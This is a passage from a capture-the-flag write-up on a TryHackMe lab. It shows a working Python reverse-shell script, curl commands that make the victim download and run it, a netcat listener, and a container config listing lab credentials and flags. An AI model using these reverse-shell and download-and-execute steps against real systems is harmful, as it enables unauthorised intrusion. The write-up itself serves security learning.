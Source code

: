 We have to go blind !

After a few tries, I didn't manage to open myself a reverse shell with a single command,
I don't know why. But I have a strategy.

We can test that the backend can communicate with us :
- Opening an http server on the attacking machine
- Curl the server from the victim

The server sends the request :
![image](/images/thm_ny_flankees//answer.png)

We will now make the victim server download a python file and execute it for us to have a
reverse shell on the server.

The python reverse shell code :
```python
import socket,os,pty
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("<YOUR IP>",4242))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/sh")
```

The command to download it : `curl IP:8000/file.py -o /tmp/file.py`

The command to execute it : `python3 /tmp/file.py`

:::important
Before executing the python file, we must have set a listener for the reverse shell
to reach us, like with netcat :
```
nc -lnvp $IP
```
:::

After setting up our interactive shell, we are ready to investigate the server.

# Container... in a container ?
In the server, we are surprisingly root !
![image](/images/thm_ny_flankees//root.png)

But wait, we are in a docker container, not on the real server. We can see the config files
of the web application in `/app/`.

The `docker-compose.yml` contains two flags including the one we found earlier on the admin page :
```yaml
root@02e849f307cc:/app# cat docker-compose.yml
version: "3"
services:
  web:
    build: .
    ports:
      - "8080:8080"
    volumes:
      - /var/run/docker.sock:/var/run/docker.sock
    restart: always
    environment:
      - CTF_USERNAME=stefan1197
      - CTF_PASSWORD=ebb2B76@62#f??7cA6B76@6!@62#f6dacd2599
      - CTF_ENCRYPTION_KEY=2d3981f51f18b0b9568521bb39f06e5b
      - CTF_ENCRYPTION_IV=956a591992734c68
      - CTF_RESOURCES=/app/src/resources
      - CTF_DOCKER_FLAG=THM{342878cd14[REDACTED]}
      - CTF_ADMIN_PANEL_FLAG=THM{a4113536187[REDACTED]}
```